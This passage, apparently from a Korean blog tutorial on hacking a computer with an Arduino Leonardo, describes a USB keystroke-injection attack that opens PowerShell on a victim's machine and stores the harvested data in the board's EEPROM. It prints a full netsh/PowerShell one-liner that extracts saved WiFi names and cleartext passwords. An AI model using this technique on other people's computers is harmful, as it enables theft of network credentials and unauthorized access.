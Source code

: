 ```js
    delay(1000);
    Keyboard.print(EEPROM.get(1, stringArray));
}
```

# 공격 요약

- 먼저 Arduino Leonardo를 트롤하는 컴퓨터에 USB 포트를 통해 연결합니다. 앞서 언급한 두 개의 버튼을 기억하시나요? 왼쪽 버튼을 누르면 프로그램이 PowerShell 터미널을 시작하고 명령을 입력하기 시작합니다.
- 프로그램은 WiFi의 SSID와 비밀번호를 추출하여 Arduino의 전기적으로 지워지지 않는 프로그램 가능 읽기 전용 메모리(EEPROM)에 저장합니다. 비휘발성 플래시 메모리 장치이므로 저장된 정보는 더 이상 전원이 공급되지 않아도 유지됩니다.
- Arduino가 기능을 실행한 후에는 피해자 컴퓨터에서 이를 분리하고 제 컴퓨터에 연결합니다. 이번에는 EEPROM에 저장된 데이터를 Arduino가 내 컴퓨터로 덤프하는 오른쪽 버튼을 누릅니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# WiFi SSID 표시 명령어

```js
(netsh wlan show profiles) |
Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} |
%{(netsh wlan show profile name="$name" key=clear)} |
Select-String "Key Content\W+\:(.+)$" |
%{$pass=$_.Matches.Groups[1].Value.Trim(); $_} |
%{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } |
Format-Table –AutoSize |
Out-String -OutVariable dataCaptured
```

<img src="/assets/img/2024-06-22-HackingacomputerusingArduino_2.png" />

WiFi SSID 표시 명령어가 길고 이해하기 어렵습니다. 이 글의 다음 부분에서는 명령어를 몇 가지 소화 가능한 섹션으로 나눠 코드의 기능을 이해하기 쉽게 설명하겠습니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
